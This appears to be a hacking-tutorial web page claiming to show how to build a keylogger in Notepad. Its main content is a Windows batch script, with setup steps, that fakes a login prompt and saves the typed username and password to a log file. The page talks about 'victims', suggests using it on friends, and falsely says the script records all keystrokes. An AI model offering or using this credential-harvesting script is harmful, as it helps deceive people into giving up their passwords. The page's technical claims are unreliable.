 # KEYLOGGER


How To Create A Keylogger Using Notepad
The keylogger is one of the oldest tools in the world of hacking, but despite this, it is still effective. Next, I’ll write everything you need to know about keyloggers and I’ll also show you how to create one in a simple way, using nothing more than the notepad.
What Is Keylogger?
A keylogger is a type of spyware that records all keystrokes on victims computer secretly. Keyloggers are widely used by cybercriminals to obtain information on bank accounts and credit cards, data such as usernames, passwords, and other personal information.

After recording everything that is typed by the victim, it sends the file where all the data was saved to the server that was operated by the hacker.
How To Make A Keylogger?
Here is a basic keylogger script for beginners to understand the basics of how keylogging works in notepad. This script should only be used for research purposes.

===================================================================

1) Open notepad on your Windows operating system and then paste the script given below.

        @echo off
        color a
        title Login
        cls
        echo Please Enter Your Email Address And Password
        echo.
        echo.
        cd C:\Logs
        set /p user=Username:
        set /p pass=Password:
        echo Username=”%user%” Password=”%pass%” >> Log.txt
        start https://techcaption.com/
        exit

Make A Keylogger


2) Now save the notepad file as logs.bat in the desktop.
Make A Keylogger

3) After that, create a new folder and name it “Logs” and move it to C drive.
Make A Keylogger

4) It’s time to test the file log.bat. Double click on the log.bat file which was placed on your desktop and then enter the Username and password.


5) Now head over to the C drive where you have placed the log folder. Open the folder and you will see a notepad keylogger which will display you the username and password.
With the help of the above steps, you can record all the various keystrokes of the keyboard which have been entered or used in the batch file. This trick is just to tell you about how keyloggers work.

How to make a Hacking Pendrive

You can even surprise your friends by telling them that their username and password is saved in the notepad. Hope you like the article, share it with others also.
